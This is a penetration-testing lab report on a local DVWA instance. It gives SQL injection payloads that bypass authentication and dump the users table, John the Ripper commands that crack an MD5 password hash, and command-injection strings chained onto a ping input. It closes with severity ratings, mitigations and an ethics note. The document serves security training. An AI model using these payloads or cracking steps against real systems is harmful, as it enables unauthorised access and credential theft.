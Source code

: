 # Lab Report — Accessing Admin Panel (DVWA)

**Author:** [Matthew Chidiebere Chukwuorji]  
**Date:** 2025-09-12  
**Target:** DVWA (Damn Vulnerable Web Application) running locally on Kali (`http://127.0.0.1/dvwa`)  
**Scope:** Local lab / authorized testing only

---

## 1. Objective
Demonstrate exploitation techniques (SQL Injection and Command Injection) on a controlled DVWA instance to access the admin panel, extract credentials, and demonstrate remote command execution as the web user.

---

## 2. Environment
- Host OS: Kali Linux (local VM)  
- Application: DVWA (installed at `/var/www/html/dvwa`)  
- Services: Apache2, MySQL  
- DVWA Security level: **Low**

---

## 3. Vulnerabilities Identified
1. **SQL Injection — Authentication & Data Exfiltration (High)**  
   - Unsanitized input allowed injection and `UNION` queries to enumerate and exfiltrate data from the `users` table.

2. **Command Injection — Remote Command Execution (High)**  
   - The ping/host input was passed to a shell enabling arbitrary command execution as the web server user.

3. **Weak Password Storage — MD5 (High)**  
   - Passwords were stored using MD5 which facilitated rapid cracking of extracted password hashes.

---

## 4. Steps Performed (reproducible)
> Ensure DVWA is running locally and Security = Low.

### A. Verify SQL Injection
1. DVWA → **SQL Injection** lab.  
2. Input: 1' OR '1'='1
3. Result: Multiple rows returned confirming SQL injection.
   1. Screenshot: 'screenshots/SQL_Injection.png'

   ### B. Extract credentials via UNION
1. SQLi lab input: ' UNION SELECT user, password FROM users#
2. Result: Returned rows containing `user` and `password` (hashes or plaintext). Saved the hash to `hashes.txt`.
   1. Screenshot: 'screenshots/sql.png'

### C. Crack MD5 hashes
1. save the hash
   '''bash
echo "5f4dcc3b5aa765d61d8327deb882cf99" > hashes.txt

### crack with John (MD5)
sudo john --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5 hashes.txt
sudo john --show --format=raw-md5 hashes.txt
Result: cracked passwords saved
   1. Screenshot: 'screenshots/password.png'

### D. Command Injection Payloads
1. 127.0.0.1 && uname -a- show OS info
2. 127.0.0.1 && id - show effective user
3. 127.0.0.1 && ls -la /var/www/html - list webroot directory

## 5. Severity
1. SQL Injection: High (direct access to sensitive data and authentication bypass).
2. Command Injection: High (remote command execution).
3. MD5 password storage: High (practical to crack weak passwords).
4. Overall risk: High for a production system

## 6. Impact

1.Full disclosure of user credentials (including admin).

2. Unauthorized administrative access to web app (dashboard).

3. Data exfiltration, account takeover, and lateral movement potential.

4. Remote command execution as web user — may enable privilege escalation.

5. Business impact: Severe (data breach, regulatory risk, reputational/financial loss).

6. Availability: Medium (attacker could deface or disrupt services).

7. Integrity: High (attacker can modify or delete data).

8. Confidentiality: High (attacker can access admin-only data).

## 7. Mitigation & Recommendations

### Immediate

1. Harden deployment (remove test pages), keep DVWA off public networks, and enforce rate-limiting/account lockout.

2. Replace MD5-stored passwords and force resets if this were production.

### Developer / code changes

1. Use parameterized queries / prepared statements (no string concatenation).

2. Never pass raw user input to shell commands; use safe libraries/APIs and strict whitelists (e.g., IPv4 regex).

3. Migrate password storage to bcrypt/Argon2 with per-user salts and proper cost factor.

4. Ensure DB accounts are least-privilege.

### Operational

1. Deploy a WAF to detect/block SQLi/command injection patterns.

2. Enable logging, monitoring, and alerting for suspicious activity.

3. Schedule SAST/DAST scans and developer secure-coding training 

## 8. Ethics & Notes

All testing and evidence were produced on a local DVWA instance under my control. Do not run these tests against systems you do not own or have explicit written permission to test.

## Screenshots

![Photo of John the Ripper](Screenshots/john.png)




